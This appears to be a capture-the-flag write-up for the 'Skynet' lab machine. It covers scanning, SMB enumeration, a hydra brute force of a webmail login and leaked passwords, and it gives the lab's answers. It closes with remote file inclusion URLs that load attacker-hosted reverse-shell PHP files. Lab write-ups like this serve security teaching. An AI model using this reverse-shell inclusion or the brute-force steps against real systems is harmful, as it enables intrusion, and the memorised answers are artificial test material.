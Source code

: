 ### Skynet

export IP=10.10.68.81

#### Deploy and compromise the vulnerable machine!

What is Miles password for his emails?
- cyborg007haloterminator


nmap scan:

![](../../img/Pasted%20image%2020220827201706.png)

Gobuster scan:

![](../../img/Pasted%20image%2020220827203111.png)

Looking at the pages on the browser, almost all pages return nothing, except the /squirrelmail, where we need to login our credentials:


![](../../img/Pasted%20image%2020220827203156.png)

Looking for other vectors of attack, we observed the smb port is open. We will try to enumerate the port using smbmap:

![](../../img/Pasted%20image%2020220827203243.png)

There are 2 directories of interest, the anonymous and the milesdyson share. We will open both directories and get all information we can get:

Anonymous is easy to open since it does not use credentials:

![](../../img/Pasted%20image%2020220827203357.png)

Opening up attention.txt file (after we get all files from the share)

![](../../img/Pasted%20image%2020220827203429.png)

Opening up log1.txt:

![](../../img/Pasted%20image%2020220827203447.png)

Other logs provide no details.

Since we have a possible wordlist of passwords to be used on user milesdyson, we can either use hydra or burpsuite to bruteforce login and provide us the correct password. I use hydra for this challenge:

![](../../img/Pasted%20image%2020220827203818.png)

After logging in the credentials on the /squirrelmail page, we are now inside miles's inbox:

![](../../img/Pasted%20image%2020220827204045.png)

We can check for email called 'Samba Password reset'

![](../../img/Pasted%20image%2020220827204115.png)

Message:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using these credentials, we can now login to miles' smb share:

![](../../img/Pasted%20image%2020220827204226.png)

We have noticed the /notes folder:

![](../../img/Pasted%20image%2020220827204438.png)

looking inside notes directory, all files have .md pdf files except important.txt:

![](../../img/Pasted%20image%2020220827204520.png)

These are the details of important.txt:

![](../../img/Pasted%20image%2020220827204601.png)


What is the hidden directory?
- /45kra24zxs28v3yd

We visit the page and we are greeted by a picture:

![](../../img/Pasted%20image%2020220827204644.png)


http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47:8080/reverse_shell.php?


http://45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.109.169/rshell.php


